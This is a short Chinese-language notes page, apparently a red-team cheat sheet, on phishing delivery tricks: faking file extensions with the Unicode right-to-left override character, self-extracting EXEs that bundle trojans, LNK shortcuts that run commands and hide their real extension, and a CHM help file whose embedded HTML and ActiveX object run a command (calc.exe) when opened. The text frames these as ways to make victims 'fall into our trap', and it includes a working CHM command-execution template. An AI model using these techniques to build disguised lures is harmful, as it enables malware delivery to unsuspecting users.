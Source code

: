 

# 宏利用

# unicode字符反转文本伪造后缀名

如下面这段字符串，开头其实酒有一个unicode控制字符RLO，用途是将后面的字符串从右到左显示，很多QQ名也是利用的unicode字符做出了特别的效果。

 ‮helloworld

我们可以很轻易的用这个字符构造一些伪装的文件，比如一个chm文件gpj.chm,在反转后就成了
‮gpj.chm

如果有人在不知道正确格式的情况下贸然打开了这个文件就中了我们的圈套。

可以和之后的很多姿势进行配合

# 自解压exe

在打包压缩文件时可以选择exe后缀将其打包为自解压文件，在运行并确定后就会将所有文件解压出来，同时可以选择解压后运行，在解压后直接就会运行我们的进程。

可以用于捆绑木马，网络上常见的一些exe文件下载打开直接安装全家桶，似乎就是用的这个。所以对于任何可执行文件都需要谨慎


# lnk快捷方式

ink文件是windows的快捷方式后缀，除了可以用它作为文件的快捷方式，也可以执行命令。

如将目标设置为`%SystemRoot%\system32\cmd.exe  cmd /c calc.exe`

则会用cmd打开计算器

同时lnk也可以指定图标，钓鱼场景中根据环境创建适合的图标能提高成功率

此外，在windows98后即使打开显示后缀，lnk后缀也不会显示，所以也可以改个譬如hello.jpg.lnk用于迷惑用户

>lnk的payload似乎有260个字符的限制

# chm文档

chm文档是微软的帮助文档，以html作为源文件进行编译，该文件能利用的点在于可以执行cmd指令

创建一个新文件夹，并创建一个html文件，键入以下代码

```
<!DOCTYPE html>
<html>
<head>
<title>click for windows help</title>
</head>
<body>
command exec 
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',calc.exe'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```
